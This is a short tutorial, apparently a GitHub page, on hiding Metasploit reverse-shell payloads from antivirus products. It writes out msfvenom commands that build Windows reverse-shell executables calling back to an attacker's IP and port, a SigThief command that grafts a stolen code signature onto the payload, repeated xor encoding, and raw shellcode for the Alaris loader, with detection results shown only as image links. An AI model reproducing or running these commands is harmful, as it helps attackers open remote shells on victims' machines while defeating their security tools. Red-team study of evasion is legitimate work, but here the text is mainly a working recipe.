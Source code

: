 ### Making MSF payload almost invisible and bypassing most AVs

## Contents
- Introduction 

- Ways to obfuscate msf payloads
    - Basic msf payload
    - Using SigThief
    - Using xor 
    - Using encryption (Alaris)
    
## Introduction 

Avs have significantly improved in recent years it still relies on age-old AV techniques that are often trivial to bypass. In this post we’ll analyse some basic pool of techniques which can be used to protect a basic msf payload to bypass most modern Avs. 

## Ways to hide msf payloads
In the following we will explore ways to encode/obfuscate msf payload and will have a goal to finally reach a point where we are satisfied with our results.

### Basic msf payload
Lets see how our basic msf payload stand againt Virustotal.

- Build command
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip here> LPORT=<port here> -f exe -o shivang_shell.ex
```

- Result

![Alt Text](https://i.ibb.co/rQrdx2j/basic-msf.png)

### Using SigThief
SigTheif is tool which takes a signature from a PE file and add that to another. Many Avs detect maalicous PE files based on signatures so this method can drop our detection rate to some extent.

- Build command
```
python sigthief.py -i git-cmd.exe -t shivang_shell.exe -o shivang_shell_2.exe
```

- Result

![Alt Text](https://i.ibb.co/BtSZkwQ/basic-msf-sig.png)

Droping only 2 detection is not at all a huge move here . Although there are many combination which can be tried from SighTheif but for now let's leave it here

### Using xor
With xor payload is decrypted inside the memeory once loaded via msfveom we can generate such payload 

- Build command

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip here> LPORT=<port here> -e x64/xor_dynamic -i 20 -f exe -o shivang_shell_xor.exe
```

- Result

![Alt Text](https://i.ibb.co/P9McckC/basic-msf-xor.png)

Well we are making some progress now.


### Using encryption (Alaris)
Alarix is a protective PE file loader which does not allow any function hooking and in memory inspection whihch Avs use for detection.

- Build
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw >> 64b_443_localhost_revshell.bin
```
And now replace the shellcode with the loader from alaris and build the solution in visual studio

![Alt Text](https://i.ibb.co/MZSNDFV/alaris.png)


- Result

![Alt Text](https://i.ibb.co/dMc2Zvg/alarix.png)

Finally we managed to invade most Avs with basic methods for now. With that it might we now can finish this post here for now
